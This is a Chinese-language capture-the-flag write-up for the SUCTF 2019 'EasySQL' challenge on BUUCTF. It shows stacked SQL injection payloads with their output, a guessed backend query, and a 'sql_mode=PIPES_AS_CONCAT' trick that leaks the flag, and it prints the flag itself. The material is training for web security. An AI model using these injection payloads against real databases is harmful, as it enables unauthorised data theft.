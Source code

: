 # EasySQL

[题目地址](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)

有点菜了。

进到网站，显示的信息让我以为真就是要我猜flag。

- Give me your flag, I will tell you if the flag is right.

打算爆破，结果发现输入字母根本就没有回显。只有输入数字才会有var_dump类型输出。

- Array ( [0] => 1 )

找了篇[wp](https://blog.csdn.net/mochu7777777/article/details/108937396),用fuzz测试了过滤的内容。只过滤了几个sql的关键词，符号什么的基本没管。尝试堆叠注入。

- 1;show databases;
  > Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test )

去ctf里面看看。

- 1;use ctf;show tables;
  > Array ( [0] => 1 ) Array ( [0] => Flag )

[use](https://www.yiibai.com/sql/sql-select-database.html)语句用于选择数据库。然后我就不会了。看大佬说，这里的query参数无论我们输入数字什么都只会回显Array([0]= > 1)，输入字母不会显，但是也没显示是过滤的，所以query的值如果为非数字则无法正确查询得到数据回显，那么查询语句就应该长这样

```php
$sql="select".$_POST['query']." || flag from Flag";
```

这里||的用法是或。网上搜大部分搜到的都是连接符，所以我也不是很了解或的用法。看wp里面的演示，我认为假如使用或的两个被查询内容有相同的字符，就返回1；否则返回0。在猜到查询语句后，我们可以这么构造payload。

- *,1
  > Array ( [0] => flag{49d4de96-6872-4c94-a7f6-d5f96ced5f2f} [1] => 1 )

这个payload会让语句成为：

```php
$sql="select *,1 || flag from Flag";
```

逗号作为查询内容的分割，select * from Flag是第一个，select 1 || flag from Flag是第二个。第一个返回的内容都很熟悉，第二个返回什么已经不重要了，flag已经出来了。

还有另一种方法。堆叠注入功能强大，我们甚至可以利用[sql_mode](https://blog.csdn.net/qq_41453285/article/details/117690689)改配置。

```sql
set sql_mode=PIPES_AS_CONCAT
```

这样能把||设置为连接符而不是逻辑或。于是我们再查询时就能把flag带出来了。

- 1;set sql_mode=PIPES_AS_CONCAT;select 1
  > Array ( [0] => 1 ) Array ( [0] => 1flag{49d4de96-6872-4c94-a7f6-d5f96ced5f2f} )

语句变为：

```php
$sql="select 1;set sql_mode=PIPES_AS_CONCAT;select 1 || flag from Flag";
```

由于改成了连接符，select 1 || flag from Flag效果就变成了select 1 from Flag的查询结果和select flag from Flag的查询结果的拼接。

### Flag
- flag{49d4de96-6872-4c94-a7f6-d5f96ced5f2f}